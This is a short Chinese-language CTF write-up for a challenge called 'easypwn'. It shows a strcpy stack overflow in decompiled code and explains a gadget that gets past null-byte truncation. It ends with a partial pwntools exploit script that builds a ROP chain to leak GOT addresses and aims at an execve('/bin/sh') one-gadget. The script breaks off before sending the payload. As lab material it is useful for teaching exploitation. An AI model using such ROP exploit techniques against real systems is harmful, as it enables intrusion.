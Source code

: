 # PWN

## easypwn

漏洞点在：
```c
int __fastcall sub_4006C6(const char *a1)
{
  char dest; // [rsp+10h] [rbp-10h]

  strcpy(&dest, a1);
  return printf("%s", &dest);
}
```
很明显的一个栈溢出，唯一的问题是`strcpy`函数会`\x00` 截断，但是这个函数开辟的栈空间很小很小，我们可以用一个`gadget` 来绕过这个截断
gadget为：
```c
0x00000000004007db : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
```
绕过了这个限制后面就是栈溢出的常规利用了

最终的exp为

```python
from pwn import *

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))

def main(host,port=10001):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./easypwn")
		debug(0x000000000400767,0)
	# 0x00000000004007db : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
	# 0x00000000004007e3 : pop rdi ; ret
	# 0x00000000004007e1 : pop rsi ; pop r15 ; ret
	# 00000000004007DA                 pop     rbx
	# .text:00000000004007DB                 pop     rbp
	# .text:00000000004007DC                 pop     r12
	# .text:00000000004007DE                 pop     r13
	# .text:00000000004007E0                 pop     r14
	# .text:00000000004007E2                 pop     r15
	# .text:00000000004007E4                 retn
	# 0xf02a4	execve("/bin/sh", rsp+0x50, environ)
	# constraints:
	# [rsp+0x50] == NULL

	p_r = 0x00000000004007e3
	p_rsi = 0x00000000004007e1
	ppppp_r = 0x00000000004007db
	gadget = 0x0000000004007DA
	p.recvuntil("Welcome to CTF")
	payload = "A"*0x18+p64(ppppp_r)+"A"*8+p64(p_r)+p64(0)
	payload += p64(gadget)+p64(0)+p64(1)+p64(elf.got["write"])+p64(0x10)+p64(elf.got["write"])+p64(1)
	payload += p64(0x0000000004007C0)
	payload += "A"*8+p64(0)*6+p64(0x0000000004006FD)
```